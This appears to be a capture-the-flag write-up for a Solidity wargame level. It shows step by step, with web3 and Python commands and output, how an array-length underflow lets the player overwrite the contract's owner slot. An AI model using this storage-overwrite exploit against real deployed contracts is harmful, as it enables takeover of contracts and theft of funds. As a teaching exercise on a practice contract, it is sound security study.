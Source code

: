 ## Storage layout

The goal is to overwrite the storage slot 0, which contains the contract owner:

```js
await contract.owner()
// '0x0BC04aa6aaC163A6B3667636D798FA053D43BD11'
await web3.eth.getStorageAt(contract.address, 0, (e,d)=>{console.log(d)});
// '0x0000000000000000000000000bc04aa6aac163a6b3667636d798fa053d43bd11'
```

Actually the first slot is packed together with the `contact` boolean:

```js
await contract.contact()
// true
await web3.eth.getStorageAt(contract.address, 0, (e,d)=>{console.log(d)});
// '0x0000000000000000000000010bc04aa6aac163a6b3667636d798fa053d43bd11'
```

Then slot 1 is the length of the byte array `codex`:

```js
await web3.eth.getStorageAt(contract.address, 1, (e,d)=>{console.log(d)});
// '0x0000000000000000000000000000000000000000000000000000000000000000'
await contract.record('0x1111111111111111111111111111111111111111111111111111111111111111')
await web3.eth.getStorageAt(contract.address, 1, (e,d)=>{console.log(d)});
// '0x0000000000000000000000000000000000000000000000000000000000000001'
```

And then, the elements of the array are stored contiguously but starting from a.
The formula to compute the index of a particular element is given [in the docs][docs-storage-layout]:

## Matching the array indexes to the storage slots

First, the array allows to access as many items as its length.
Luckily, there's an underflow vulnerability:

```solidity
function retract() contacted public {
    codex.length--;
}
```

```js
await contract.retract()
await web3.eth.getStorageAt(contract.address, 1, (e,d)=>{console.log(d)});
// '0xffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffff'
```

The array now spans the whole length of the storage, $2^{256}$.
It starts at the position `keccak(1)`:

```js
// web3.utils.keccak256(web3.eth.abi.encodeParameters(['uint256'],[1]))
web3.utils.keccak256('0x0000000000000000000000000000000000000000000000000000000000000001')
// '0xb10e2d527612073b26eecdfd717e6a320cf44b4afac2b0732d9fcbe2b7fa0cf6'
```

Slot            | Element
--------------- | --------------------
0               | `contact` + `owner`
1               | array length
2               | empty
...             | ...
`keccak(1)`     | `codex[0]`
`keccak(1)+1`   | `codex[1]`
...             | ...
$2^{256} - 1$   | $codex\[2^{256} - 1 - keccak\(1\)\]$
0 = $2^{256}$   | $codex\[2^{256} - keccak\(1\)\]$

This scheme can be verified by hand: modifying `codex[0]` should alter the storage slot `0xb10e2d527612073b26eecdfd717e6a320cf44b4afac2b0732d9fcbe2b7fa0cf6`.

```js
await web3.eth.getStorageAt(contract.address, '0xb10e2d527612073b26eecdfd717e6a320cf44b4afac2b0732d9fcbe2b7fa0cf6', (e,d)=>{console.log(d)});
// '0x0000000000000000000000000000000000000000000000000000000000000000'
await contract.revise(0, '0x000000000000000000000000' + player.slice(2))
await web3.eth.getStorageAt(contract.address, '0xb10e2d527612073b26eecdfd717e6a320cf44b4afac2b0732d9fcbe2b7fa0cf6', (e,d)=>{console.log(d)});
// '0x000000000000000000000000aad026992b0065d4a9c7019b082cb748d042411f'
```

## Overwriting the storage slot 0

The array index corresponding to the slot 0 can be computed in Python:

```python
hex(1 + 0xffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffff - 0xb10e2d527612073b26eecdfd717e6a320cf44b4afac2b0732d9fcbe2b7fa0cf6)
# '0x4ef1d2ad89edf8c4d91132028e8195cdf30bb4b5053d4f8cd260341d4805f30a'
```

```js
index = '0x4ef1d2ad89edf8c4d91132028e8195cdf30bb4b5053d4f8cd260341d4805f30a';
await contract.revise(index, '0x000000000000000000000000' + player.slice(2));
await web3.eth.getStorageAt(contract.address, 0, (e,d)=>{console.log(d)});
// '0x000000000000000000000000AAD026992b0065D4A9c7019B082cb748D042411F' 
```

[docs-storage-layout]: https://docs.soliditylang.org/en/v0.8.13/internals/layout_in_storage.html#mappings-and-dynamic-arrays
